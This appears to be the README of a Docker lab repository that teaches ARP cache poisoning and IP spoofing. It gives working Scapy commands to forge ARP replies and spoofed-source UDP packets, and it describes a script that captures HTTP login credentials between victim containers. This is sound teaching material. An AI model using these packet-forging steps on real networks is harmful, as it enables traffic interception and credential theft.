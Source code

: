# ARP Cache Poisoning & IP Spoofing Lab

This repository contains a minimal lab setup for demoing ARP cache poisoning and IP spoofing.

- [Wikipedia: ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
- [Wikipedia: IP Spoofing](https://en.wikipedia.org/wiki/IP_address_spoofing)

> The code contained in this repository is intentionally INSECURE and must NOT be used in production!

## Setup

- Install `docker` and `docker-compose`
- Clone this repo
- Run `docker-compose build` to build the images

You get three images for

- `victim`
- `attacker`
- `udpserv`

that are used by the containers described in the next section.

After the images are built, run the containers via the command:

```bash
$ docker-compose up -d
[+] Running 0/4
 ⠋ Container alice    Creating
 ⠋ Container evie     Creating
 ⠋ Container bob      Creating
 ⠋ Container udpserv  Creating
 ...
```

> For accessing the containers, refer to the section at the end of this document.

If you need to explicitly rebuild the images use `docker-compose up -d --build`.

## Configuration

There are three containers based on two images

| Name      | IP address  | MAC address       | Role            | Service         |
| --------- | ----------- | ----------------- | --------------- | --------------- |
| `alice`   | 10.10.0.101 | 00:00:00:00:00:01 | Victim          | 80/tcp (http)   |
| `bob`     | 10.10.0.102 | 00:00:00:00:00:02 | Victim          | 80/tcp (http)   |
| `evie`    | 10.10.0.103 | 00:00:00:00:00:03 | Attacker        | -               |
| `udpserv` | 10.10.0.104 | 00:00:00:00:00:04 | UDP Echo Server | 9999/udp (echo) |

## Manual ARP Cache Poisoning

Tell `alice` that the ip address of `bob` resides at `evie's` mac address.

```python
$ scapy
...
>>> a = ARP()                      # create an ARP packet
>>> a.show()                       # have a look at the ARP packet
>>> a.op = 'is-at'                 # Unsolicited ARP
>>> a.pdst = '10.10.0.101'         # L3-Dst: Alice
>>> a.psrc = '10.10.0.102'         # L3-Src: Bob
>>> a.hwdst = '00:00:00:00:00:01'  # L2-Dst: Alice
>>> a.hwsrc = '00:00:00:00:00:03'  # L2-Src: Evie
>>> a.show()                       # check the values again
>>> send(a)                        # send the Packet (on L3, for convenience)
>>> ...
```

During the attack, monitor the system's ARP cache for changes via

```bash
$ watch -d -n1 "ip neigh show"
Every 1.0s: ip neigh show

10.10.0.102 dev eth0 lladdr 00:00:00:00:00:02 REACHABLE
...
```

If the attack was successful you should be able to see the MAC address of `bob's` ip changing to `evie's` MAC address.

> `watch` executes the command `ip neigh show` (show ARP cache) every second (`-n1`) and highlights changes (`-d`).

> Sometimes the ARP cache does not get overwritten immediately - so try another time if there is no success.

## Automatic ARP Cache Poisoning

> Notes for `spoofing.py`:
>
> - Reports captured HTTP data twice (incoming and outgoing - needs filtering)
> - Sometimes packets are not captured

To start the automatic ARP cache poisoning, run on `evie`:

```bash
$ python3 spoofing.py
... # wait for output
```

and let a client do an HTTP request (on `alice`):

```bash
# HTTP GET
$ curl "http://bob/login?user=myuser&pass=mysecret"
...
# HTTP POST
$ curl "http://bob/login" --data "user=myuser&pass=mysecret"
...
```

## Manual IP Spoofing

For the IP spoofing we use a echo server that just returns the request-data 10 times to the address contained in the IP-packet's `source` field.

> To check if the UDP Echo server is running you can `nc -u 10.10.0.104 9999` from any other machine in this lab setup and send some arbitrary data. You should receive 10-times your request.

On the attacker (`evie`) create a packet that is addressed to the echo server and contains e.g. `alice's` IP address in the `src`-field.

```python
$ scapy
...
# Create a IP/UDP/Data-Packet and send it via L3 to the Server
>>> send(IP(dst='10.10.0.104', src='10.10.0.101')/UDP(dport=9999)/Raw(load="abc"))
...
```

Monitor the incoming UDP data on `alice` using:

```bash
$ tcpdump -i eth0 -X udp
...
15:21:59.013318 IP udpserv.arplab_lab-net.9999 > alice.53: 24930 updateM+ [b2&3=0x6361] [24930a] [25187q] [25441n] [25187au] [|domain]
	0x0000:  4500 003a 6ed3 4000 4011 b6ff 0a0a 0068  E..:n.@.@......h
	0x0010:  0a0a 0065 270f 0035 0026 1518 6162 6361  ...e'..5.&..abca
	0x0020:  6263 6162 6361 6263 6162 6361 6263 6162  bcabcabcabcabcab
	0x0030:  6361 6263 6162 6361 6263                 cabcabcabc
...
```

## Common docker commands

### Control containers

```bash
# Bring containers up
$ docker-compose up -d
# Show logs of all containers
$ docker-compose logs -f
# Bring all containers down
$ docker-compose down
...
```

### List running containers

```bash
$ docker ps
CONTAINER ID   IMAGE          COMMAND               CREATED         STATUS         PORTS     NAMES
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             alice
<id>           udpserv:1.0    "python3 server.py"   4 seconds ago   Up 2 seconds             udpserv
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             bob
<id>           attacker:1.0   "/bin/sh"             4 seconds ago   Up 2 seconds             evie
```

### Accessing a containers shell

Start a shell in one of the containers (by name of the container):

```bash
$ docker exec -it evie /bin/bash
root@evie:/#
```

## License

The work in this repository may be reused under the terms of [(CC BY-SA 4.0)](https://creativecommons.org/licenses/by-sa/4.0/).
